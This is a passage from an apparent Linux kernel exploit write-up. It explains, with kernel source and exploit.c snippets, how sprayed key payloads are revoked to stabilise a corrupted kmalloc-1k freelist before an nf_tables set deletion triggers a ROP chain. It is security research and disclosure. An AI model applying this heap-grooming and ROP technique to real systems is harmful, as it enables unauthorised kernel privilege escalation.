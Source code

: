 - [security/keys/user_defined.c:user_revoke()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n128)
```c
void user_revoke(struct key *key)
{
	struct user_key_payload *upayload = user_key_payload_locked(key);

	/* clear the quota */
	key_payload_reserve(key, 0);

	if (upayload) {
		rcu_assign_keypointer(key, NULL);
		call_rcu(&upayload->rcu, user_free_payload_rcu); // [2]
	}
}
```
Note that the `struct user_key_payload` objects are freed by RCU [2], so we need to wait several CPU cycles to ensure the chunks are actually freed [1].

- [exploit/extra-refined/exploit.c#L1205](../exploit/extra-refined/exploit.c#L1205)
```c
// reclaim to overwrite should be done
// now populate the kmalloc-1k cache to avoid
// touching corrupted freelist
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	if (keyctl(KEYCTL_REVOKE, keys[i], 0, 0, 0) < 0)
		perror("keyctl");
}
sleep(1); // key is released by rcu, let's wait for a while...
```
Again, the percpu freelist of `kmalloc-1k` cache is corrupted due to the reclamation of double-freed chunks. To prevent the kernel crashing, the exploit populates the `kmalloc-1k` caches by releasing the `struct user_key_payload` objects which are allocated in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).

- [exploit/extra-refined/exploit.c#L1215](../exploit/extra-refined/exploit.c#L1215)
```c
// delete nft_set to trigger ROP chian!
// notice that this ROP chain is run on worker context
release_reclaim_set(nl, RECLAIM_SET_NAME);
```

- [net/netfilter/nf_tables_api.c:nft_commit_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n8434)
```c
static void nft_commit_release(struct nft_trans *trans)
{
// ...
	case NFT_MSG_DELSET:
		nft_set_destroy(&trans->ctx, nft_trans_set(trans));
		break;
// ...
```
